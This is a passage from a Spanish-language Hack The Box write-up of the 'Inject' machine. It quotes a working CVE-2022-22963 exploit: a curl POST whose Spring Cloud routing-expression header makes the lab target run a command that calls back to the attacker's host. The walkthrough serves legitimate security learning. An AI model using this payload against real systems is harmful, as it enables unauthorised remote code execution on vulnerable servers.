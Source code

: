 

Buscando el CVE por github, encontramos el siguiente repositorio:

[CVE-2022-22963](https://github.com/me2nuk/CVE-2022-22963)

![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/ES/Machines/Easy/Inject/img/11.png?raw=true)

En este repositorio, hemos encontrado una sección que contiene un comando que nos permite, a través de una solicitud HTTP utilizando el método POST, ejecutar comandos de forma remota al aprovechar una función de Spring Cloud.

```
elswix@parrot > curl -X POST  http://10.129.35.222:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.42/probando")' --data-raw 'data' -v
```


Estamos intentando que la máquina realice una solicitud a nuestro servidor web utilizando el comando "curl":

![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/ES/Machines/Easy/Inject/img/12.png?raw=true)
